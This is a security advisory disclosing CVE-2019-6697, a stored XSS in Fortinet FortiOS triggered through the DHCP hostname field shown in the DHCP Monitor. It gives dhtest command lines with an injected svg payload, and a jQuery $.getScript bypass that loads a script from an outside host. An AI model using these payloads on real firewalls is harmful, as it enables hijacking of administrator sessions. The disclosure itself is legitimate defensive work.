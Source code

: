 # SSD Advisory - Fortigate DHCP Stored XSS

**Vulnerability Summary**  
The following advisory describes a Stored XSS Vulnerability found in Fortinet's Fortigate Firewall(FortiOS) via an unauthenticated DHCP packet.

**CVE**  
CVE-2019-6697

**Credit**  
An independent Security Researcher, Toshitsugu Yoneyama, has reported this vulnerability to SSD Secure Disclosure program.

**Affected systems**  
FortiOS v6.0.4 build 0231.

**Vendor Response**  
Fortigate has fixed the vulnerability in FortiOS version 6.2.2

**Vulnerability Details**  
An unauthenticated attacker can trigger a Stored XSS Vulnerability via a malicious DHCP packet in the Fortigate DHCP Monitor. This can happen if Device Detection is enabled through Network >Interface > Edit Interface > Device Detection

![](https://ssd-disclosure.com/wp-content/uploads/2019/07/fortigate_device_detection.png)  
When this option is enabled the attacker may perform the following steps in order to exploit the vulnerability:

1.  Install dhtest or any other tool that can send arbitrary DHCP packets.  
    (https://sargandh.wordpress.com/2012/02/23/linux-dhcp-client-simulation-tool/)
2.  Send a malicious DHCP packet. For example:

```
#./dhtest-master/dhtest -i eth0 -m 12:34:56:78:90:12 -h "x<svg onload=alert();)>x"
    [Option]
    -m : mac address
    -h : hostname(dhcp option 12). The attacker can inject malicious scripts.
```

3.  Once the victim logs into Fortigate's dashboard and goes to the "DHCP Monitor"  
    (https://<ip>/ng/dhcp/monitor) the browser will execute the malicious script injected by the attacker.

    ![](https://ssd-disclosure.com/wp-content/uploads/2019/07/fortigate_alert_popup.png)

But there are a few limitations:  
The user's input is validated, not allowing us to use tags like `<script src>`, `<img src=_onerror=>` and other similar options. There are also character count limits:

* DHCP option 12 has a string size limit allowing only up to 256 characters. More information about this option is available in the RFC.
* Fortigate's string size can't be longer than 128 characters.

However, Fortigate uses jQuery which allows the attacker to bypass the mentioned restrictions and execute arbitrary scripts using the following method:

```
#./dhtest-master/dhtest -i eth0 -m 12:34:56:78:90:12 -h "x<svg onmouseover=$.getScript('//www.example.jp/a.js')>x"
```